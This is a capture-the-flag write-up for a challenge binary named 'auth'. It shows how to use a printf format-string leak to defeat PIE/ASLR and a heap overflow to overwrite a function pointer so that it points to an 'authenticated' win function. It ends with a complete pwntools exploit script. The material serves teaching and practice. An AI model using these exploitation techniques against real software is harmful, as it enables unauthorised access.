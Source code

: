 ![image](https://github.com/AndreQuimper/Writeups/assets/96965806/b6f07a0b-10ed-4633-8fd2-4ea35bbad1a3)

Running the binary shows a prompt for a username and a password  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/bbd23d06-706c-4039-8f85-6d6c76813541)  

If we analyze the binary with ghidra we can see the following main function  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1a9a8976-9b56-4f9f-9ac3-591d559b8ebf)  
As you can see, there is a printf vulnerability on line 14, that will come in handy later.  
The other interesting functions are `auth` and `authenticated`  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/f6d7d963-22bb-474f-ac3f-c6fdcde717c6)  
Authenticated is the "Win" function (aka what we want to execute) and auth is a function that writes a pointer to the `normal` function on the heap, writes the "Password" also on the heap and then calls the `normal` function.  
We can see that there is an overflow vulnerability that allows us to overwrite anything on the heap.  

Our exploitation consists of the following:  
1. Leaking Memory:  
   Since ASLR and PIE are enabled we need to use the printf vulnerability to find the new base address of our binary.
   Using gdb and testing we find out that the 15th argument to printf is a pointer to main.

2. Overwriting `normal` with a pointer to `authenticated`:  
   Ghidra tells us that there is an offset of 0x68 bytes between our password and the pointer to `normal`.


This is what our final exploit looks like  
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template auth
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'auth')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()


# 15th %p is main
io.sendline(b"%15$p")
io.recvuntil(b'Hello ')
main_addr = io.recvuntil(b",", drop=True)
main_addr = int(main_addr,base=16)
log.info(f'Address of main: {hex(main_addr)}')

exe.address = main_addr - exe.symbols['main'] 
payload = 0x68*b'A' + p64(exe.symbols['authenticated'])
io.sendline(payload)
io.interactive()
```



